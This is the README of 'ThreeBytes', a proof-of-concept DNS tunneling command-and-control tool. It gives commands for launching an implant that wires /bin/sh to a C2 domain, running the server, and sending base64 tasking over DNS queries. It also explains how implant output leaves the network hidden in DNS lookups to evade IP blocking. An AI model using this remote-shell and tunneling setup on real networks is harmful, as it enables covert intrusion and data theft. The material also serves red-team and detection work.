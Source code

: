 ThreeBytes
==========
A simple, poorly-documented DNS tunneling PoC which sends DNS replies as
A records of which the first byte is insignificant, in order to get around
IP blocking.

The same binary is used for implant, server, and log-filter.

For legal use only.

Implant
-------
Give it an Implant ID, domain, and some program to run.  Example:

```bash
./threebytes -id kittens -domain example.com /bin/sh
```

C2
--
First off, for anybody who actually has to use this, I'm sorry.

The C2 server is ready to go out of the box.  It writes general log data
to stderr, but payload returned from implants to stdout.  As a convenience,
the `-log-filter` flag can be used to filter an implant's stdout/stderr from
a log stream.

```bash
nohup ./threebytes >log 2>info &
tail -f log | ./threebytes -log-filter kittens
```

It's quirky.

Tasking
-------
Tasking is done via a DNS query to a subdomain of `.tasking`.  The leftmost
label should be the implant ID and the second label from the left should be
unpadded base64-encoded tasking, less the `=`'s.  In practice, this looks
something like
```bash
while read line; do dig @localhost kittens.$(echo $line | base64 -e | tr -d '=').tasking; done
```
Note that no null bytes can be sent as tasking.

Protocol
--------
Tasking is in the form of the non-0 bytes of an A record.  It's fed to the
stdin of the implant's command.

Each output byte from the implant is first shifted to a Unicode range well
above ascii, Punycoded, then sent as a query to the server.  The server just
logs it.
